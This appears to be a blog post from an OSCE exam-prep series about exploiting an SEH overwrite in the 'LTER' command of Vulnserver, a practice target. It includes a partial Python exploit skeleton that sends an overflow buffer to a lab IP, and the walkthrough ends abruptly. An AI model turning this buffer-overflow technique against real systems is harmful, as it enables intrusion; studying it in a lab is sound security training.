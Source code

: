 ```yaml
---
layout: single
title: CTP/OSCE Prep -- 'LTER' SEH Overwrite Version 2.0!
date: 2019-6-03
classes: wide
header:
  teaser: /assets/images/CTP/immunity.jpg
tags:
  - buffer overflow
  - Windows
  - x86
  - shellcoding
  - exploit development
  - assembly
  - python
  - OSCE
  - CTP
  - SEH
--- 
```

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

In this particular post we'll be using the skills we picked up last post to find our own way to exploit the 'LTER' command with an SEH overwrite.

If you have not already done so, please read some of the posts in the 'CTP/OSCE Prep' series as this post will be **light** on review! 

## Background 

This will be our third go at the 'LTER' command on Vulnserver. 
+ [The first time](https://h0mbre.github.io/LTER_SEH_Exploit/), I failed miserably to use the SEH overwrite, but I ended up discovering and EIP overwrite vulnerability with a smaller fuzzing payload.
+ [The second time](https://h0mbre.github.io/LTER_SEH_Success/#), I used @doylersec's approach to the SEH overwrite and worked through the exploit step-by-step for hours and was finally able to complete my own exploit modeled off of Doyler's.

Armed with the ability to use alphanumeric shellcode and a better understanding than the first time around, let's try to come up with our own unique take on the exploit and try to come up with something that's original to us.

## Getting Started

We will pick up after the taking the jump code in our 'next SEH address' 4 byte space to jump into our `D` buffer. At the moment, our exploit code looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'

buffer += 'A' * 3514 
buffer += nSeh
buffer += Seh
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
## From `D` Buffer to Top of `A` Buffer

Once we use our netjump in the `nSeh`, we land at the top of our `D` buffer in the address space `0174FFCC`. (Don't get too hung up on specific addresses as those will change from application instance to application instance, instead focus on the offsets or distances between two addresses. That number should remain static.)

![](/assets/images/CTP/Ltertake3.JPG)

If we scroll down in the CPU Instructions pane to the bottom, you can see that the last `44` instruction is sitting at `0174FFFF`.

![](/assets/images/CTP/ohyeahLTER.JPG)


## Big Thanks

To everyone who has published free intro-level 32 bit exploit dev material, I'm super appreciative. Truly mean it. 

## Resources
+ [OffSec Alphanumeric Shellcode](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/)
+ [Corelan Mona Tutorial](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)
